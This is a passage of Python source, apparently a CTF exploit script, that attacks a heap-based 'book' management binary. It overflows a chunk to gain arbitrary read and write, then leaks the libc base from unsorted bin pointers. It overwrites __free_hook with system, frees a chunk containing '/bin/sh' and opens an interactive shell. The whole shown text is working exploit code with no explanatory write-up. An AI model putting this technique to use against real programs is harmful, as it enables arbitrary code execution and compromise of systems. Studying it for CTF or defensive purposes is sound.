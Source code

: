```python
        payload = "C"*(0x100+0x10 - offset) + p64(0x1) \
                  + p64(library0 + 0x20 + 0x10) \
                  + p64(library0 + 0x20 + 0x30 + 0x30 + 0x10 + 0x10) \
                  + p64(0x100)
        self.edit(1, payload)
        self.set_author_name("A" * 32)
        print "get arbitrary address write&read"

        # todo: leak libc address via unsorted bin address
        for i in range(4):
            self.create(0x100, "F" * 0x100, 0x100, "G" * 0x100)  # 3,4,5,6
        for i in range(4):
            self.delete(i + 3)  # 3,4,5,6
        libcbase = self.read_from(library0 + 0x8c0) - 0x1bbca0
        print "libc base address: %x" % libcbase

        # todo:
        #   1. write "/bin/sh" to library[2] name
        #   2. replace `__free_hook` as `system`
        bin_sh_addr = libcbase + next(self.libc.search("/bin/sh"))
        free_hook_addr = libcbase + self.libc.symbols["__free_hook"]
        system_addr = libcbase + self.libc.symbols["system"]
        print "'/bin/sh' address: %x" % bin_sh_addr
        print "_free_hook address: %x" % free_hook_addr
        print "system address: %x" % system_addr
        self.create(0x20, "/bin/sh", 0x20, "/bin/sh")  # 7
        self.write_to(free_hook_addr, p64(system_addr))

        # todo: get shell
        self.p.sendline("2")
        self.p.sendlineafter("Enter the book id you want to delete: ", "7")
        self.p.interactive()


if __name__ == "__main__":
    c = Challenge()
    c.pwn()
```
